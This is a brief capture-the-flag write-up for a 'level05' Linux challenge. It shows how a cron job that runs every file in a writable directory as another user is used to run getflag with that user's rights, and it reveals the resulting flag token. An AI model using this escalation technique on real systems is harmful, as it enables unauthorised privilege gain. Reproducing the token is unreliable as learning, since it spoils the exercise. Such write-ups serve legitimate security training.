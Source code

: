 ## writeup level05

When we log in as user level05, we are prompted with the message `You have new mail.`. So we look inside the mail folder `/var/mail`.
```shell
$ ls /var/mail
level05
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
The mail is a crontab executing `/usr/sbin/openarenaserver` as user flag05 every 2 minutes.
We cannot execute this file as user level05, but its a script:
```shell
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
We see it execute every file in `/opt/openarenaserver` and delete them. We can guess the crontab is under flag05, so we cannot check if it really exists. \
But to verify it does execute properly, we create a file in `/opt/openarenaserver`. After two minutes, it disappear. To get the flag, we can do:
```shell
$ cat > /opt/openarenaserver/printflag <<EOF
getflag > /tmp/flag
EOF
```
After two minutes, the getflag is executed as user flag05 and redirected to the /tmp/flag
```shell
$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
